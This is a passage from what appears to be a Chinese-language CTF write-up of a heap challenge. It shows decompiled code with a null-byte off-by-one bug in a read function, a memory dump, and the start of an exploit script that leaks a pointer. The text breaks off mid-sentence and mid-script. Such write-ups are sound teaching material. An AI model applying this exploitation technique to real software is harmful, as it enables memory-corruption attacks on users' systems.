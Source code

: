 ## 漏洞

程序编写的read函数存在null byte off-by-one漏洞，仔细观察这个read函数可以发现对于边界的考虑是不当的。

```
signed __int64 __fastcall my_read(_BYTE *ptr, int number)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( number <= 0 )
    return 0LL;
  buf = ptr;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == '\n' )
      break;
    ++buf;
    if ( i == number )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

## 利用

### 1.泄漏


因为程序中的my_read函数存在null byte off-by-one，事实上my_read读入的结束符'\x00'是写入到0x555555756060的位置的。这样当0x555555756060～0x555555756068写入book指针时就会覆盖掉结束符'\x00'，所以这里是存在一个地址泄漏的漏洞。通过打印author name就可以获得pointer array中第一项的值。

```
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161   <== author name
0x555555756060:	0x0000555555757480 <== pointer array	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

为了实现泄漏，首先在author name中需要输入32个字节来使得结束符被覆盖掉。之后我们创建book1，这个book1的指针会覆盖

```
def js(str):
     return io.recvuntil(str)

def jsn(num):
     return io.recvn(num)

def fs(str):
     io.sendline(str)

def fsn(str):
     io.send(str)
     
js('Enter author name:') #input author name
fs('a'*32)
    
js('>')# create book1
fs('1')
js('Enter book name size:')
fs('32')
```